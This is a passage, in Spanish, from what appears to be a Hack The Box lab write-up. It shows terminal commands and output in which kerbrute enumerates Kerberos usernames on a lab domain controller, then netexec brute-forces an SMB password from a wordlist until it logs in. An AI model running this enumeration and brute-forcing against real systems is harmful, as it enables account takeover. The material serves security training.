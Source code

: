 Ojo! Los nombres de los dominios siempre acaban en .local (y no en .local0), pues ejecutaré: 
```
┌─[eu-academy-3]─[10.10.15.71]─[htb-ac-1876550@htb-zmumfwlpqh]─[~/username-anarchy/kerbrute]
└──╼ [★]$ ./kerbrute_linux_amd64 userenum --dc 10.129.202.85 --domain ILF.local /home/htb-ac-1876550/username-anarchy/nameS.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 10/10/25 - Ronnie Flathers @ropnop

2025/10/10 08:25:27 >  Using KDC(s):
2025/10/10 08:25:27 >  	10.129.202.85:88

2025/10/10 08:25:27 >  [+] VALID USERNAME:	 jmarston@ILF.local
2025/10/10 08:25:27 >  Done! Tested 14 usernames (1 valid) in 0.005 seconds

```

Ya tengo que el nombre válido es "jmarston\@ILF.local".

Con esto, ejecutaré fuerza bruta para intentar buscar la contraseña que tiene:
```
netexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt
```

Dándome como respuesta:
```
┌─[eu-academy-3]─[10.10.15.71]─[htb-ac-1876550@htb-zmumfwlpqh]─[~/username-anarchy/kerbrute]
└──╼ [★]$ netexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
.....
[*] Initializing RDP protocol database
[*] Copying default configuration file
SMB         10.129.202.85   445    ILF-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:ILF-DC01) (domain:ILF.local) (signing:True) (SMBv1:False)
SMB         10.129.202.85   445    ILF-DC01         [-] ILF.local\jmarston:Spring2017 STATUS_LOGON_FAILURE 
SMB         10.129.202.85   445    ILF-DC01         [-] ILF.local\jmarston:Spring2016 STATUS_LOGON_FAILURE 
SMB         10.129.202.85   445    ILF-DC01         [-] ILF.local\jmarston:Spring2015 STATUS_LOGON_FAILURE 
.....
SMB         10.129.202.85   445    ILF-DC01         [-] ILF.local\jmarston:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.202.85   445    ILF-DC01         [-] ILF.local\jmarston:P@55w0rd! STATUS_LOGON_FAILURE 
SMB         10.129.202.85   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)

```
